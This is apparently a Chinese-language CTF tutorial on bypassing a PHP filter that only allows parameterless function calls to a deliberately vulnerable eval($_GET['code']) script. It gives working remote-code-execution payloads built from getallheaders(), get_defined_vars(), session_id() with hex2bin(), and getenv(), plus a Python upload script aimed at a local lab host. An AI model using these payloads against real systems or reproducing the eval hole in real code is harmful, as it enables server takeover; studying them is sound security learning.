





```php
<?php
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    eval($_GET['code']);
}
?>
```

我们可以使用无参数函数任意读文件，也可以执行命令：

既然传入的`code`值不能含有参数，那我们可不可以把参数放在别的地方，`code`用无参数函数来接收参数呢？这样就可以打破无参数函数的限制：

首先想到请求头参数`headers`，因为`headers`我们用户可控


### getallheaders()和apache\_request\_headers()

`getallheaders()`是`apache_request_headers()`的别名函数，但是该函数只能在`Apache`环境下使用，任何`header`头部都可利用：

先查看哪个参数在第一位，然后直接修改第一位的`header`参数为payload，然后选择到它执行即可。


`system(next(getallheaders()))`


### get\_defined\_vars()

该函数会返回全局变量的值，如get、post、cookie、file数据，返回一个多维数组，所以需要使用两次取数组值：




```
system(current(next(get_defined_vars())))
```

如何利用file变量进行rce呢？

>python发送文件
>
>```python
>import requests
>
>if __name__ == "__main__":
>    url = 'http://192.168.0.103/norce/index.php'
>    # burp抓包查看文件包
>    proxy = {
>       'http': '127.0.0.1:8080',
>       'https': '127.0.0.1:8080'
>    }
>    # 单个文件
>    # "uploadName": ("filename", "fileobject", "content-type", {"headers": "arg"})
>    r_file = {
>       'data': ('data', "1", "image/jpeg", {"aa": 'bb'})
>    }
>    # 多个文件
>    r_files = {
>        'data1': ('data_1', "1", "image/jpeg", {"aa": 'bb'}),
>        'data2': ('data_2', "2", "image/jpeg")
>    }
>    r_files_2 = [('image1', ('1.png', '1', 'image/png', {"aa": "bb"})),
>                 ('image2', ('2.png', '2', 'image/png'))]
>    r = requests.post(url=url, headers=header, files=r_files_2, proxies=proxy)
>    print(r.text)
>```
>
>

这里要注意的是，file数组在最后一个，需要end定位，因为payload直接放在文件的名称上，再pos两次定位获得文件名

`print_r(system(pos(current(end(get_defined_vars())))))`


### session_id()

`session_id()`：可以用来获取/设置 当前会话 ID。

session需要使用`session_start()`开启，然后返回参数给`session_id()`

但是有一点限制：文件会话管理器仅允许会话 ID 中使用以下字符：a-z A-Z 0-9 ,（逗号）和 - 减号）

但是`hex2bin()`函数可以将十六进制转换为ASCII 字符，所以我们传入十六进制并使用`hex2bin()`即可

`if(session_start())var_dump(eval(hex2bin(session_id())));`



>PHP7.3.4只能用这种方式来实现，PHP5可以不使用if而是把`session_start()`嵌套在`session_id()`里面
>
>PHP7.3.4
>
>
>PHP5.4.45
>`var_dump(eval(hex2bin(session_id(session_start()))));`
>
>
>而PHP7.3.4使用嵌套方式`session_id()`就会返回`false`
>
>
>初步判定是因为`session_start()`开启成功后会返回1，导致`session_id()`内有参数，让PHP以为是要修改PHPSESSID，从而导致无法获取到PHPSESSID

### getenv()

`getenv()` ：获取环境变量的值(在PHP7.1之后可以不给予参数)

所以该函数只适用于PHP7.1之后版本，否则会出现：`Warning: getenv() expects exactly 1 parameter, 0 given in ...`报错


  

`getenv()` 可以用来收集信息，实际利用一般无法达到命令执行效果，因为默认的`php.ini`中，`variables_order`值为：`GPCS`

也就是说系统在定义PHP预定义变量时的顺序是 `GET,POST,COOKIES,SERVER`，没有定义`Environment(E)`，你可以修改`php.ini`文件的 `variables_order`值为你想要的顺序，如：`"EGPCS"`。这时，`$_ENV`的值就可以取得了


我们来看修改后的值：（环境不同，环境变量显示也不同）


对此我们可以加以利用，方法同上文：

